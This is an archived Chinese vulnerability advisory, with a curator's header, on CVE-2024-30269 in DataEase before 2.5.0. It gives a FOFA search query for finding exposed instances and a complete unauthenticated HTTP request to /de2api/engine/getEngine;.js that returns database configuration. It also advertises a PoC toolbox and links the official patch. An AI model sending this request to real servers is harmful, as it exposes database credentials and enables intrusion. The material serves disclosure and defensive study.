



# DataEase 30269 getEngine配置暴露

## 条目说明

- 对象与具体问题：DataEase；30269 getEngine配置暴露
- 版本、配置及部署条件：<2.5.0声明，分号路径条件
- 认证与权限前提：无Cookie示例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- CNNVD202404-938需作为主别名；GitHub2.5.0发布源保留
- 只有响应截图，缺泄露字段及响应样例/分号绕过根因
- 去知识星球及历史推荐，不能由数据库配置推全部数据库访问

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

2024-10-17更新  南风漏洞复现文库   2024-10-17 23:33  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
### 1. DataEase简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
DataEase是一个开源的数据可视化分析工具  
### 2.漏洞描述  
  
DataEase是一个开源的数据可视化分析工具。用于帮助用户快速分析数据并洞察业务趋势，从而实现业务的改进与优化。DataEase 2.5.0之前版本存在安全漏洞。攻击者利用该漏洞通过浏览器访问“/de2api/engine/getEngine;.js”路径，可以看到返回的数据库配置。  
  
CVE编号:CVE-2024-30269  
  
CNNVD编号:CNNVD-202404-938  
  
CNVD编号:  
### 3.影响版本  
  
DataEase 2.5.0之前版本  
  
  
  
DataEase存在数据库配置信息暴露漏洞(CVE-2024-30269)  
### 4.fofa查询语句  
  
body="Dataease"  
### 5.漏洞复现  
  
漏洞链接：http://xx.xx.xx.xx/de2api/engine/getEngine;.js  
  
漏洞数据包：  
```http
GET /de2api/engine/getEngine;.js HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: xx.xx.xx.xx

```  
  
  
### 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。4: 免费指纹识别，持续更新指纹库。  
  
  
  
  
  
  
  
  
  
  
### 7.整改意见  
  
官方补丁https://github.com/dataease/dataease/releases/tag/v2.5.0  
### 8.往期回顾  
  
  
[同望OA tooneAssistantAttachement.jsp接口存在任意文件读取漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487550&idx=1&sn=9cd50f073c26466c930c308d11b86116&chksm=974b9d39a03c142fbc64a72a3075a44fd644d2b2db62a2861e0026fb5d0982f5fa9a2ade6c1c&scene=21#wechat_redirect)  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
